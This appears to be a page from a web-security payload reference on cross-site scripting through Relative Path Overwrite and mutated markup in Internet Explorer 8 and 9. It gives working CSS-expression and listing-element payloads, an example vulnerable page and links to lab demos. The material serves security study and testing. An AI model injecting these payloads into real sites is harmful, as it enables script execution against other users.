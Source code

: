 # XSS with Relative Path Overwrite - IE 8/9 and lower

You need these 3 components

```javascript
1) stored XSS that allows CSS injection. : {}*{xss:expression(open(alert(1)))}
2) URL Rewriting.
3) Relative addressing to CSS style sheet : ../style.css
```

A little example

```html
http://url.example.com/index.php/[RELATIVE_URL_INSERTED_HERE]
<html>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
<link href="[RELATIVE_URL_INSERTED_HERE]/styles.css" rel="stylesheet" type="text/css" />
</head>
<body>
Stored XSS with CSS injection - Hello {}*{xss:expression(open(alert(1)))}
</body>
</html>
```

Explanation of the vulnerability

> The Meta element forces IE’s document mode into IE7 compat which is required to execute expressions. Our persistent text {}*{xss:expression(open(alert(1)))is included on the page and in a realistic scenario it would be a profile page or maybe a shared status update which is viewable by other users. We use “open” to prevent client side DoS with repeated executions of alert.
> A simple request of “rpo.php/” makes the relative style load the page itself as a style sheet. The actual request is “/labs/xss_horror_show/chapter7/rpo.php/styles.css” the browser thinks there’s another directory but the actual request is being sent to the document and that in essence is how an RPO attack works.

Demo 1 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo.php`
Demo 2 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo2.php/fakedirectory/fakedirectory2/fakedirectory3`
MultiBrowser : `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo3.php`

From : `http://www.thespanner.co.uk/2014/03/21/rpo/`

## Mutated XSS for Browser IE8/IE9

```javascript
<listing id=x>&lt;img src=1 onerror=alert(1)&gt;</listing>
<script>alert(document.getElementById('x').innerHTML)</script>
```

IE will read and write (decode) HTML multiple time and attackers XSS payload will mutate and execute.

## References

- [TODO](TODO)
